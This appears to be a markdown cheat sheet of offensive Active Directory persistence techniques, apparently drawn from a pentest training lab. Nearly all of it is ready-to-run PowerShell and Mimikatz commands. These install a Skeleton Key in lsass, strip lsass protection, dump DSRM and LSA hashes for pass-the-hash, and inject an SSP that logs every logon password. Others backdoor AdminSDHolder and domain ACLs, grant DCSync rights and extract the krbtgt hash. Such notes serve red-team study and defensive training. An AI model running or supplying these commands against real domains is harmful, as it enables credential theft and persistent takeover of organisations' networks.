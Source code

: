 ## Persistence on Active Directory 

### Golden Ticket



### Silver Ticket


### Skeleton Key
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd
```powershell
1. Dump DSRM password (DA privileges required)
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>

2. Compare the Administrator hash with the Admin hash of this command
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>

3. First one is the DSRM local Admin. Pass the hash can be used to authenticate
4. Logon behavior for DSRM account needs to be changed
C:> Enter-PSSession -Computername <hostname> 
C:> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

5. PAss the hash
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<domain> /user:Administrator /ntlm:<adim_hash> /run:powershell.exe
```
### SSP (Security Support Provider)
- Inject into `lsass` using Mimikatz
```powershell
C:> Invoke-Mimikatz -Command '"misc::memssp"'
```
- Use `mimilib.dll`
```powershell
C:> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
C:> $packages += mimilib
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
C:> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
- All logons on DC logged to `C:\Windows\system32\kiwissp.log`

### SDPROP and AdminSDHolder
- `sdprop` is a process that runs evey hour and compares ACL of protected groups with members of the ACL of `AdminSDHolder`. Any differences are overwriten.
- With DA privileges on `AdminSDHolder` object, a user can be added to the `AsminSDHolder` ACL and will be added to protected groups when `sdprop` runs
```powershell
C:> . .\Invoke-SDPropagator.ps1

# Force `sdprop` to run
C:> Invoke-SDPropagator

# Add Full Control Permissions for a user to AdminSDHolder using PowerView
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc moneycorp,dc=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Change PAssword permissions
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Add Write Members
C:> Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity <username> -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Check Domain Admins Permissions with Poweriew
C:> Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<username>"}

# Once with permissions, Add User with PowerView
C:> Add-DomainGroupMember -Identity 'Domain Admins' .Members <username> -Verbose

# Change user password
C:> Set-DomainUserPassword -Identity <usernname> -AccountPassword (ConvertTo-SecureString "Password@" -AsPlainText -Force) -Verbose
```
### Abuse ACL 
```powershell
# Add Full Rights to Domain Root ACL
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# DCSync rights on Domain
C:> Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity <username> -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Execute DCSync
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
### MORE





